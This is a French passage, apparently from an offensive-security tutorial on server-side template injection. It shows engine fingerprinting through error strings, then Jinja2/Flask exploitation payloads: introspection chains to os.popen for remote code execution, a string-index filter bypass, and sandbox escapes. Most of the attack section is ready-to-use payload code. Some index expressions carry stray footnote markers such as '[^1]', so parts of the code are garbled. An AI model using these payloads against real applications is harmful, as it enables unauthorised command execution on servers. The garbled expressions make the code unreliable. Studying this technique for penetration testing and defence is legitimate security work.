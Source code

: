 Les **messages d'erreur** sont également des sources précieuses d'information. L'injection de syntaxe invalide révèle souvent le nom et la version du moteur dans les stack traces :

```php
# Génération d'erreurs intentionnelles
{{}}
{%}
<%>
```

### Phase 3 : Exploitation et Escalade

Une fois le moteur identifié, l'exploitation suit des patterns spécifiques à chaque technologie. Les techniques modernes incluent des méthodes de contournement de sandbox et d'introspection d'objets.

## Techniques d'Exploitation Avancées par Moteur

### Exploitation Jinja2 (Python/Flask)

Jinja2 est particulièrement puissant car il permet l'exécution de code Python natif. Les techniques d'exploitation exploitent la capacité d'introspection de Python pour remonter la hiérarchie d'objets jusqu'aux modules système.

**Technique d'Introspection d'Objets :**

```python
# Accès au namespace global via l'objet self
{{self.__init__.__globals__}}

# Navigation dans la hiérarchie des classes
{{''.__class__.__mro__[^1].__subclasses__()}}

# RCE via os.popen
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
```

**Technique par Position d'Index (Bypass de Filtres) :**

Cette technique innovante évite l'utilisation de chaînes littérales en extrayant des commandes depuis le namespace global converti en string :

```python
# Extraction de la commande "id" depuis le global namespace
{{self.__init__.__globals__.__str__()[1786:1788]}}

# RCE complet utilisant la position d'index
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[1786:1788]).read()}}
```

**Contournement de Sandbox Jinja2 :**

Même en mode sandbox, Jinja2 peut être exploitable via l'accès aux objets internes :

```python
# Accès aux sous-classes Python
{{"".__class__.__base__.__subclasses__()[^104].__init__.__globals__['sys'].exit()}}

# Alternative avec config Flask
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```
